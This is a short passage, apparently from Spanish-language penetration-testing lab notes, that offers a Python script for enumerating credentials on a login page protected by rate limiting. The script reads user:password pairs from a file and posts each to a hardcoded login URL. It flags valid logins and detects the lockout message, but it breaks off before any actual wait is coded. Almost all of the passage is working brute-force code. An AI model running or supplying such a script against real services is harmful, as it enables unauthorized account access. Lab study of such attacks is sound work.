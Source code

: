 Podemos usar este script para intentar enumerar credenciales en una pagina con esta proteccion:

```python
import requests
import time

#colors
HEADER = '\033[95m'
OKBLUE = '\033[94m'
OKCYAN = '\033[96m'
OKGREEN = '\033[92m'
WARNING = '\033[93m'
FAIL = '\033[91m'
ENDC = '\033[0m'
BOLD = '\033[1m'
UNDERLINE = '\033[4m'

# file that contain user:pass
userpass_file = "userpass.txt"

# create url using user and password as argument
url = "http://138.68.167.82:30771/login.php"

# rate limit blocks for 30 seconds
lock_time = 30

# message that alert us we hit rate limit
lock_message = "Too many login failures"

# read user and password
with open(userpass_file, "r") as fh:
    for fline in fh:
        # skip comment
        fline = fline.rstrip()
        if fline.startswith("#"):
            continue

        # take username
        username = fline.split(":")[0]

        # take password, join to keep password that contain a :
        password = ":".join(fline.split(":")[1:])

        # prepare POST data
        data = {
            "userid": username,
            "passwd": password,
            "submit": "submit"
        }

        # do the request
        res = requests.post(url, data=data)

        # handle generic credential error
        if "Invalid credentials" in res.text:
            print("{}[-] Invalid credentials: userid:{} passwd:{}{}".format(OKCYAN,username, password, ENDC))
        # user and password were valid !
        elif "Welcome" in res.text:
            print("{}[+] Valid credentials: userid:{} passwd:{}{}".format(OKGREEN,username, password,ENDC))
        # hit rate limit, let's say we have to wait 30 seconds
        elif lock_message in res.text:
            print(f"{WARNING}[-] Hit rate limit, sleeping 30{ENDC}")
```